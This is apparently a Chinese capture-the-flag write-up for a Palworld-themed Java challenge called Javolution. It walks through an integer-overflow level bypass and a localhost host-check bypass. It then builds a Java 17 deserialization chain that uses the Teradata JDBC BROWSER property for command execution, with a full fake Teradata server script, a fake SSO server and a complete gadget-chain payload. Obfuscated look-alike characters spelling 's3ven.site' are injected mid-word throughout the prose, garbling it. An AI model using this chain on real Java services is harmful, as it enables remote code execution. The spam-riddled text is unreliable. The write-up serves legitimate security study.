Javolution
反序列化部分入口点



要到达触发反序列化语句部分，s⑶𝐯ｅｎ.𝐬i𝒕𝘦需要满足以下条件：
- Player 𝘴³𝘷en․𝐬ｉ𝘵℮玩家等级达到50级
- 传入的 host 包含
dubhe字段且是回环地址
一、整数溢出漏洞
jar 包内 /pal 路由部分实现了一个较为完整的交𝒔𝟯v𝐞n.s𝘪𝘵𝐞互式幻兽帕鲁游戏，提供以下操作接口：
/capture用于捕捉帕鲁，仅当待捕捉帕鲁的等级在 Player 𝘀⑶𝘷ℯｎ․𝘀iｔ℮等级+10 级 以内才能捕捉成功捕捉成功后 ѕ⑶ⅴ𝐞𝘯∙𝘴ⅈ𝒕ｅPlayer 将变为被捕捉的帕鲁
/battle/{boss}路由用于与帕鲁战斗，𝘴³𝒗en．𝘴ｉ𝐭℮通过一个特定的函数判断双方能力：

如果 Player 能力大于目标帕鲁的能力，则战斗成功，s3𝒗eｎ．ѕⅈ𝒕ePlayer 等级升至目标帕鲁的等级
/cheat在 GET 路由中可以修改当前 Player 的 𝒔3vｅ𝒏·𝐬ｉ𝘵𝘦hp、attack ѕ³𝒗𝘦ｎ．𝘴iｔ℮和 defense，但需要满足hp <= level * 200、attack <= level * 20和defense <= level * 20/cheat在 POST 路由中用于触发 Java 𝘴⑶ⅴeｎ•𝘀i𝐭ｅ反序列化，需要满足前述条件才能到达触发部分
游戏部分提供了如下帕鲁：

为了提供更高的游戏趣味性和随机性，ꜱ⑶𝘷℮n∙𝐬ⅈ𝐭℮游戏中还提供了如下生成波动函数：


和元素克制逻辑：

由于出题人的精心设计：
- Grizzbolt 和 s3𝘷ｅｎ∙𝐬i𝐭𝐞Jetragon 的等级差值为 20
- 初始值波动范围为 0.ѕ3𝒗𝘦𝐧․ѕ𝐢𝒕e9 - 1.1
- 元素克制加成为 1.ѕ3ⅴｅ𝘯•ꜱit𝐞0 或 1.5
/cheatGET路由部ꜱ𝟯ⅴｅ𝘯·𝐬𝘪𝒕℮分的设置限制
无法通过正常方法 battle 赢 Jetr𝘴3ⅴ𝐞𝐧．𝘴ⅈ𝘵ｅagon 或 capture 到 Jetragon
💡 因此此处需要𝘀3𝐯e𝐧․ѕ⑶ve𝒏•ѕⅈt𝐞𝐬𝘪t𝐞使用 整除溢出漏洞
首先 /cheat 的 GET 路由部分使用了 intValue() 函数，且限制了𝐬⑶𝐯ｅ𝐧．𝒔it𝐞传入数据为 Integer ，如果传入过大或过小的数字，会被当成字符串报错，所以此处是无法使用溢出漏洞的
因此考虑在后续对 hp attack 和 𝐬3𝐯ℯ𝒏․𝘴it𝐞defense 的运算中使用整数溢出漏洞：

由于 /cheat 的 GET 路由部分仅限制了 hp <= level * 200 、attack <= level * 20 和 defense <= level * 20 ，因此我们可以传入𝘀³𝐯ｅｎ·𝐬ｉ𝒕℮一个很小的但不溢出的负数：
hp=0 attack=-2147483648 defense=-2147483648此时 myPower 由于 hp=0 而变为 0
opponentPower 由于 opponentdamage 计算过程中发生溢s³v𝘦n·ѕｉｔe出成为0 而变为0
因此最后得以 battle 成功升入 50 级
二、host 绕过
该部分需要满足以下条件：
- 传入的 host 包含
dubhe字段 - 传入的 hos𝒔³𝒗e𝘯∙ѕⅈｔ℮t 是回环地址
可以通过设置一个公网 DNS ꜱ3𝘷ｅ𝐧.ѕⅈｔe解析到回环地址来绕过，同时可能由于远程进行了相应设置，可以使用 dubhe.localhost 绕过校验部分
三、反序列化部分
反序列化入口点是一个常见的 readObject() 函数，查看 pom.xml 如下：


发现这是基于 ꜱ⑶𝒗𝘦n．𝘀i𝘵℮Java 17 的高版本反序列化
由于依赖中没有提供常用的 CommonCollection 链和 CommonBeanutil 𝒔⑶ⅴe𝐧․ѕｉ𝐭℮链，只能尝试从 Jackson 链尝试突破
且此处引入的 teradata jdbc 𝘀𝟯ⅴ𝘦ｎ.𝒔ｉ𝒕e并没有在前述逻辑中使用，应当是绕过高版本 Java 限制的一个工具
先在 com.teradata.jdbc 包中进行危险𝐬𝟯𝒗𝘦n．ꜱ𝘪ｔ𝘦函数的查找：

发现在其原设计为调用浏览器的逻辑部分存在 Runtime.getRuntime().exec() 危险函数的调用
找了半天终于在 blackhat ꜱ3vｅ𝘯．𝒔ｉ𝒕𝘦里找到了相关的漏洞说明：

Teradata JDBC 在通过浏览器设置 SSO 登录时会调用 Runtime.getRuntime().exec() 用于启动指定的浏览器进行 SSO 𝒔3𝘷ｅ𝒏．ꜱ𝐢ｔｅ验证，此处存在漏洞可进行任意命令执行
攻击路径如下：
- JDBC Client 连接到 𝘀⑶𝐯𝐞𝒏.𝘴iｔ𝐞Fake Teradata Server
- Fake Teradata Server 告诉 s³𝘷𝐞𝒏•ѕ𝐢𝘵𝐞JDBC Client OIDC 已启用
- JDBC Client 向 OIDC s⑶ⅴ𝘦𝒏•𝘀3𝒗ｅｎ․ѕ𝘪𝐭𝐞s𝘪ｔe服务器发出 URL 请求，需要具有 openid-configuration 格式的 JSON 返回
- JDBC Client 执行 s3v℮𝘯．ꜱⅈｔｅBROWSER 属性中的命令
首先启用一个 Fake ѕ𝟯𝐯eｎ.ꜱit𝘦Teradata Server：

# Script fakeserver.py from Vidar-Team 1ue
import asyncore
import logging
import socket
import struct
class teradata_request_handler(asyncore.dispatcher_with_send):
def __init__(self, sock, addr, url):
asyncore.dispatcher_with_send.__init__(self, sock=sock)
self.addr = addr
self.packet_to_send = bytes.fromhex('03020a0000070000')+struct.pack(">H",len(url)+899)+bytes.fromhex('000000000000000000000000000000000000000000010000000005ff0000000000000000000000000000002b024e000003e8000003e80078000177ff0000000200000001ff000004be00555446313620202020202020202020202020202020202020202020202020bf00555446382020202020202020202020202020202020202020202020202020ff00415343494920202020202020202020202020202020202020202020202020c0004542434449432020202020202020202020202020202020202020202020204e0100010001540007008c310000640000fa00000f4240000000007cff06000070000000fff80000000100000000bf000000100000ffff000008000000008000000040000009e7000fa0000000f23000007918000000260000fa000000fa000000fa0000007d0000007d000000fa000000fa00000009e7000000060000000600000006000003e8000fa00000fffc00000fffb40000fa000009000101000a001c01010101010101020100010100010101010201010001010101010102000b002201010101010001010101010102010101010101010001010101010101010001010000000c0006010001020101000d003e31372e32302e30332e30392020202020202020202020202020202020202031372e32302e30332e3039202020202020202020202020202020202020202020000e000403030203000f00280100000100010100000101000001000100010001000000000000000000000001010001000100000100100014000000000000000000008002000000000000000000120020010101010101010100000000000000000000000000000000000000000000000000130008010101000000000000060002014900a5')+struct.pack(">H",len(url)+87)+bytes.fromhex('0000000100010005010002000811140309000300040004000600210006000400050004000700040008000400090004000a000501000b000501000c000501000e0004001000060100000f')+struct.pack(">H",len(url)+11)+bytes.fromhex('000372636500')+struct.pack("B",len(url))+url.encode("ascii")+bytes.fromhex('00a70031000000010000000d2b06010401813f0187740101090010000c00000003000000010011000c000000010000001400a70024000000010000000c2b06010401813f01877401140011000c000000010000004600a7002100000001000000092a864886f7120102020011000c000000010000002800a7001e00000001000000062b06010505020011000c000000010000004100a70025000000010000000d2b0601040181e01a04822e01040011000c000000010000001e00a70025000000010000000d2b0601040181e01a04822e01030011000c000000010000000a')
self.ibuffer = []
def handle_read(self):
data = self.recv(8192)
if data:
logging.info('[+]Data received: {}{}'.format(data,"\r\n"))
logging.info('[+]Data sending: {}{}'.format(self.packet_to_send,"\r\n"))
self.send(self.packet_to_send)
class TeradataServer(asyncore.dispatcher):
def __init__(self, host, port):
asyncore.dispatcher.__init__(self)
self.create_socket()
self.set_reuse_addr()
self.bind((host, port))
self.listen(5)
logging.info(f'Server running on {host}:{port}')
def handle_accept(self):
pair = self.accept()
if pair is not None:
sock, addr = pair
handler = teradata_request_handler(sock, addr, "http://<server_ip>:5555/a")
if __name__ == '__main__':
logging.basicConfig(level=logging.INFO)
server = TeradataServer('0.0.0.0', 10250)
asyncore.loop()然后启用一个 fakesso server ，ѕ𝟯𝐯ℯｎ∙𝐬it𝘦用于返回 openid-configuration 格式的 json
# Script fakesso.py from Vidar-Team 1ue
from flask import Flask
import json
app = Flask(__name__)
@app.route("/a")
@app.route("/a/.well-known/openid-configuration")
def h():
dddata={
"authorization_endpoint":"1ue",
"token_endpoint":"vidar"
}
return json.dumps(dddata)
if __name__ == "__main__":
app.run(host="0.0.0.0",debug=True,port=5555)由于漏洞说明中仅给出了基于 CommonBeanutil 链的绕过高版本方法，𝘀³ⅴ𝐞𝘯.sⅈ𝐭℮因此我们需要手动构造 Jackson 链来调用 TeradataSource 的 getter 方法触发连接
首先是 dataS𝘀³ⅴℯｎ∙s𝘪𝘵eource 部分的构造：
String command = "calc.exe";
TeraDataSource dataSource = new TeraDataSource();
dataSource.setBROWSER(command);
dataSource.setLOGMECH("BROWSER");
dataSource.setDSName("127.0.0.1");
dataSource.setDbsPort("10250");首先尝试了 BadAttributeValueExpException.toString -> POJONode -> jackson反序列化->getter
但是实测 BadAttributeValueExpException 触发 toString 只能在 Java 8 中成功触发，而在 Java ѕ𝟯𝘷𝐞𝘯․ѕ𝘪𝒕℮17 中无法使用，因此需要寻找其他 from readObject to obj.toString 路径链：
EventListenerList list = new EventListenerList();
UndoManager manager = new UndoManager();
Vector vector = (Vector) ReflectionHelper.getFieldValue(manager, "edits");
vector.add(obj);
ReflectionHelper.setFieldValue(list, "listenerList", new Object[]{InternalError.class, manager});如果直接使用上述链子，在 jackson ѕ𝟯ⅴ𝐞𝐧·𝘴ｉｔ𝐞链在循环调用 getter 时会由于顺序问题导致反序列化触发失败：
getter definitions for property "databaseName": com.teradata.jdbc.TeraDataSourceBase#getdatabaseName() vs com.teradata.jdbc.TeraDataSourceBase#getDatabaseName()需要使用 org.springframework.aop.framework.JdkDynamicAopProxy 类代理解决：
JdkDynamicAopProxy 类的 advised 成员是
org.springframework.aop.framework.AdvisedSupport类型的对象，它的 targetSource 成员中保存了 J𝘴3ⅴｅｎ․ꜱ𝟯𝒗𝐞𝒏.𝒔it𝘦𝒔ⅈ𝐭𝘦dkDynamicAopProxy 类代理的接口的实现类
当代理类上的一个接口方s𝟯𝒗ｅ𝐧·ѕⅈ𝘵𝐞法被调用时，这个
handler就会尝试调用targetSource成员保存的实现类对象所实现的对应方法。所以需要获取代理类所有的getter方法，然后调用代理的getter方法，触发 JdkDynaѕ⑶𝘷e𝘯．𝘀𝘪𝐭𝘦micAopProxy 类的invoke方法
同时应该注意到，当我们使用反射获取一个代理类上的所有方法时，只能获取到其代理的接口方法，ꜱ𝟯ⅴ𝐞n∙𝘀𝘪ｔ𝐞我们的目的应该是让代理类仅仅包含我们需要的方法
getConnection()来触发 jdbc 连接

由于 DataSource 代理类包含我们需要的 getConnection() 方法，因此我们可以使用这个代理类来稳定触发反序列化：
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(dataSource);
Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{DataSource.class}, handler);最终 Payload：
// Teradata 恶意 dataSource 构造
String command = "calc.exe";
TeraDataSource dataSource = new TeraDataSource();
dataSource.setBROWSER(command);
dataSource.setLOGMECH("BROWSER");
dataSource.setDSName("127.0.0.1");
dataSource.setDbsPort("10250");
// 代理类实现稳定触发 getConnection
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(dataSource);
Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{DataSource.class}, handler);
// 删除 writeReplace 解决 Jackson 反序列化不稳定问题
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(writeReplace);
ctClass.toClass();
POJONode node = new POJONode(proxy);
// jdk17 从 readObject 到 obj.toString 构造
EventListenerList list = new EventListenerList();
UndoManager manager = new UndoManager();
Vector vector = (Vector) ReflectionHelper.getFieldValue(manager, "edits");
vector.add(node);
ReflectionHelper.setFieldValue(list, "listenerList", new Object[]{InternalError.class, manager});
System.out.println(serial(list));